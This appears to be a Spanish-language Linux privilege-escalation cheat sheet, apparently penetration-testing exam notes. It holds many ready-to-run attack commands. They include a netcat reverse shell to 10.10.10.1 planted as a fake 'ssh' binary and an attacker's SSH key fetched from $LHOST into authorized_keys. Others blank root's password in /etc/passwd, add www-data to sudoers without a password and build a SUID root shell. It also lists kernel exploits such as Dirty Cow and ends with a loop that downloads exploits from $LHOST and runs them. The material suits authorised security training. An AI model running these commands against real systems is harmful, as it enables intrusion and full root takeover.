 # Elevacion de privilegios

## Spawing shell

1) Shell interactiva --> `python -c 'import pty; pty.spawn("/bin/sh")'; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; export TERM=xterm; export SHELL=bash`

2) Add public key to authorized keys  --> `echo $(wget http:/$LHOST/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys`

## Informacion SO

3) Distribucion de linux y version --> `cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;`

4) Arquitectura de sistema y kernel --> `$ cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release`

5) Variables de entorno             --> `cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set`

## Directorios y procesos

6) Bit SUID y SGID                  --> `printf "-------SUID-------\n\n"; find / -perm -u=s -type f 2>/dev/null; printf "-------GUID-------\n\n"; find / -perm -g=s -type f 2>/dev/null`

7) Listar los procesos corriendo como root, permisos y NFS exports --> `echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null`

8) Listar directorios con permisos de lectura, escritura y ejecución --> 
<pre>
W   `find / -writable -type d 2>/dev/null`
W   `find / -perm -222 -type d 2>/dev/null`
W   `find / -perm -o w -type d 2>/dev/null`     # world-writeable folders
X   `find / -perm -o x -type d 2>/dev/null`     # world-executable folders
W+X `find / \( -perm -o w -perm -o x \) -type d 2>/dev/null`  
R `find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print`
</pre>


9) Encontrar binarios interesantes             -->  `find / -name wget; find / -name nc*; find / -name netcat*; find / -name tftp*; find / -name ftp`

## Reconocimiento automatico

10) LinuxPrivChecker --> `cp $OSCP/escalacion/linuxprivchecker.py lpc.py`

11) Linux Exploit Suggester --> `cp $OSCP/escalacion/les.sh .`

12) Linux Exploit Suggester perl --> `cp $OSCP/escalacion/Linux_Exploit_Suggester.pl les.pl`

## Utilidades

13) Alterar el PATH para un fichero SUID que invoca a otro --> `set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"; echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh ; chmod +x ssh`

14) Generar una shell con SUID --> `echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c`

15) Si /etc/passwd tiene permisos incorrectos --> `echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su`

16) Añadir al usuario www-data a sudoers sin password --> `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`


## Compilacion

17) Incluir path --> `gcc -B /usr/bin file.c -o compiled`

18) Solucionar error de target  --> `gcc file.c -o compiled -Wl,--hash-style=both`

## Exploits satisfactorios

19) __CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8__ https://www.exploit-db.com/exploits/15285

20) __Linux Kernel <= 2.6.37 'Full-Nelson.c'__ https://www.exploit-db.com/exploits/15704/

21) __CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)__ https://git.zx2c4.com/CVE-2012-0056/about/

22) __Linux CVE 2012-0056__ `wget -O mem.c http://www.exploit-db.com/download/18411; gcc -o mem mem.c`

23) __CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8__ https://dirtycow.ninja/ `g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil`
`wget https://www.exploit-db.com/download/40839 -O dirty.c; gcc -pthread dirty.c -o dirty -lcrypt`

24) __Linux 2.6.32__ https://www.exploit-db.com/exploits/15285/ 

26) __Elevation in 2.6.x__ `for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://$LHOST/$a; chmod +x $a; ./$a; id; done`